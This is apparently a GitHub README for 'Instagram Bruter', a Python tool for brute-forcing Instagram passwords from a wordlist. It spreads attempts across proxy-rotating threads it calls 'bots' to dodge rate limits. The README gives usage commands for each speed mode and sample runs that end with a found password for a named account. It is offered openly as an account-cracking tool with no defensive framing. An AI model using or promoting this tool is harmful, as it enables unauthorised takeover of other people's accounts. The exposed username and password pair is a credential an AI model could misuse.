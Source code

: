 # Instagram Bruter *v2.0*

Re-engineered to work **without** TOR
__Usage:__ `python instagram.py <username> <wordlist> -m <mode>`

### Requirements
- Python *v2.x* **|** *v3.x*
- ~~Kali Linux 2.0~~
- ~~TOR~~

### Help
```
C:\Users\Mohamed\Desktop\Instagram>python instagram.py -h
usage: instagram.py [-h] [-m MODE] username wordlist

positional arguments:
  username              email or username
  wordlist              password list

optional arguments:
  -h, --help            show this help message and exit
  -m MODE, --mode MODE  modes; 0: 128bots, 1: 64bots, 2: 32bots, 3: 16bot
```

### Bots(Multi-threads)
- 1 bot: 16 passwords at a time
- 2 bots: 32 passwords at a time
- 4 bots: 64 passwords at a time
- 8 bots: 128 passwords at a time

### Modes
- 0: 8 bots
- 1: 4 bots
- 2: 2 bots
- 3: 1 bot

### Chill mode
This mode uses only 1 bot, or 16 passwords at a time.
```
C:\Users\Mohamed\Desktop\Instagram>python instagram.py Sami09.1 pass.lst -m 3
```

### Moderate mode 1
This mode uses 2 bots, or 32 passwords at a time.
```
C:\Users\Mohamed\Desktop\Instagram>python instagram.py Sami09.1 pass.lst -m 2
```

### Moderate mode 2
This mode uses 4 bots, or 64 passwords at a time.
```
C:\Users\Mohamed\Desktop\Instagram>python instagram.py Sami09.1 pass.lst -m 1
```

### Savage mode
This mode uses 8 bots, or 128 passwords at a time.<br>
Only use this mode when you have to, proxies are limited so save some p __****__ for the rest of us
```
C:\Users\Mohamed\Desktop\Instagram>python instagram.py Sami09.1 pass.lst -m 0
```

### If you don't specify a mode, then mode is set to 2

### Run
```
[-] Proxy-IP: 125.25.80.39[Thailand]
[-] Wordlist: pass.lst
[-] Username: Sami09.1
[-] Password: 31
[-] Attempts: 15
[-] Proxies: 334
[-] Bots: 2
```

### Stop
```
[-] Proxy-IP: 37.145.33.107[Poland]
[-] Wordlist: pass.lst
[-] Username: Sami09.1
[-] Password: Sami123
[-] Attempts: 97
[-] Proxies: 4
[-] Bots: 2

[!] Password Found
[+] Username: Sami09.1
[+] Password: Sami123
```
